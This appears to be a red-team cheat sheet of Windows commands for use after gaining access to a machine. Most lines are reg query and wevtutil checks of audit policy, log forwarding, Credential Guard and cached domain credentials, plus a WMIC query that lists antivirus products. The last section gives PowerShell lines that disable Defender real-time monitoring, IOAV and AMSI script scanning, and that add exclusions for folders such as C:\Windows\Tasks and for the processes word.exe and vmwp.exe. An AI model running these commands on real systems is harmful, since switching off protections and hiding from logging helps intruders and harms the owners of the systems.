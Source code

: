 ### view system auditing setting

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit
```

### check if system logs are stored somewhere else:

```
reg query HKLM\Software\Policies\Microsoft\Windows\EventLog\EventForwarding\SubscriptionManager
```

view log categories:

```
wevtutil enum-logs
wevtutil el
```

### configuration for System log:

```
wevtutil gl System
```

general application logging info:

```
wevtutil gli Application
```

### check credential guard:

```
reg query HKLM\System\CurrentControlSet\Control\LSA /v LsaCfgFlags
```

### check cached credentials (domain):

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

## check for AVs

```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List | more 
```

### windows defender

if you have privileges:

```
# check status of Defender
PS C:\> Get-MpComputerStatus

# disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true

# disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# exclude a folder
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
```